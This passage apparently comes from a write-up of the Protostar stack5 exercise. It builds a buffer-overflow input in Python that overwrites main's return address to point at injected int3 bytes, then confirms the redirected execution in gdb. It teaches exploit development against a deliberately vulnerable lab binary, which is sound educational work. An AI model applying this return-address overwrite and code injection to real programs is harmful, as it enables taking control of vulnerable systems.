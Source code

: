 Initially only an `int 3` instruction will be written to prove this concept.

**Note** `int3` is an instruction used to indicate a debug break. This means gdb will break when this instruction is executed. The opcode for `int3` is `0xCC`

The python script will be updated to reflect this:

```python
import struct

padding = '\xAA' * 76
returnPointer = struct.pack("I", 0xbffff7b0)
instructions = '\xCC' * 4
print(padding + returnPointer + instructions)
```

By passing this input to gdb, and analyzing the stack just before `ret` gets called, it is possible to observe how the stack was changed:

```bash
(gdb) r < ~/in.txt
Breakpoint 7, main (argc=-858993460, argv=0xbffff800) at stack5/stack5.c:11
11	in stack5/stack5.c

(gdb) disassemble 
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.

(gdb) x/30x $esp 
0xbffff750:	0xbffff760	0xb7ec6165	0xbffff768	0xb7eada75
0xbffff760:	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa
0xbffff770:	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa
0xbffff780:	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa
0xbffff790:	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa
0xbffff7a0:	0xaaaaaaaa	0xaaaaaaaa	0xaaaaaaaa	0xbffff7b0
0xbffff7b0:	0xcccccccc	0xbffff800	0xbffff85c	0xb7fe1848
0xbffff7c0:	0xbffff810	0xffffffff
(gdb) 
```

`main`'s return pointer is overwritten to 0xbffff7b0, this means that when the `ret` instruction is called the next instruction to be executed will be the one stored in that address. Which in this case it was overwritten with 0xCC (`int3`) instruction.

By continuing execution in GDB, it is observed that the injected payload was executed, and that the breakpoint trap was surfaced to GDB.
